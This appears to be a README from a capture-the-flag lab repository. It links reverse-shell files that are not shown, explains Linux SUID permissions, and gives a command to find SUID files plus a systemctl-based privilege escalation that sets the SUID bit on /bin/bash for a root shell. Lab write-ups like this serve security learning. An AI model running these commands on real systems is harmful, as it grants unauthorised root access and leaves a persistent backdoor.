

### [gobuster.out](./gobuster.out)
### [nmap.out](./nmap.out)
### [php-rev-shell.php](./php-rev-shell.php)
### [phpext.txt](./phpext.txt)
### [revshell.phtml](./revshell.phtml)


[](SUID)

In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).

For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.

```bash
# search for these files
$ find / -perm /-u=s,g=s -type f 2>/dev/null
```

```bash
### PE via systemctl | GTFOBin Link
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
# paste this ☝️ into terminal then run
# $ /bin/bash -p
```